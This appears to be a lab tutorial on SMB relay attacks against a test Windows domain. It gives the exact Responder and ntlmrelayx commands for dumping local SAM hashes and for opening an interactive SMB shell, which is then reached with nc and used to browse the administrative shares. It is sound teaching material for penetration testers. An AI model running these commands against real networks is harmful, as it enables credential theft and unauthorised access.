 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -I wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)


**_Local SAM hashes have been dumped_**

![](https://i.imgur.com/GCHxNP1.png)



The authentication succeeded because SMB signing is enabled but not required and because “peterparker” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***
## **Spawning Reverse Shell**


Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to `ntlmrelayx.py` command

```shell
$ ntlmrelayx.py -tf targets -smb2support -i
```

`-i` will give the interactive shell. After running the command, you will see an output as shown in the image below :


![](https://i.imgur.com/QSh4895.png)


It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://i.imgur.com/00tjm6b.png)


From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
# shares
# use C$
# use ADMIN$
# use IPC$
```

Then we can do `ls`


![](https://i.imgur.com/M1tuOWf.png)


